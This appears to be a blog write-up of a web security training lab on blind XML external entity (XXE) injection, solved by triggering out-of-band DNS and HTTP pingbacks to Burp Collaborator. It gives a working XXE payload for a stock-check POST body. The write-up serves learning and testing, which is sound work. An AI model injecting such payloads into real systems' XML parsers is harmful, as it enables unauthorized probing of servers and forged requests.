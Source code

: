 ```yaml
---
layout: post
title:  "Blind XXE with out-of-band interaction"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## Solution 

Just like the previous XXE labs, we have a functionality to check for stocks on the particular products 

![]({{ site.baseurl }}/assets/images/xxe/xxe-15.png)

But this lab is little bit different from the others where in the last few labs, where we did pass the payload and based on error response.. we will look into it to triage it

Now in this attack technique is little bit different, we can utilise a technique called `Out of Band` technique 

This type of XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

With the following payload, placed in the `POST` body request where it will trigger in pingback through collaborator

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Once after request is successfully passed, we can see that I've recieved two different pingbacks one is `HTTP` and `DNS`

![]({{ site.baseurl }}/assets/images/xxe/xxe-16.png)

Since we recieved a pingback and that solves the lab 

![]({{ site.baseurl }}/assets/images/xxe/xxe-17.png)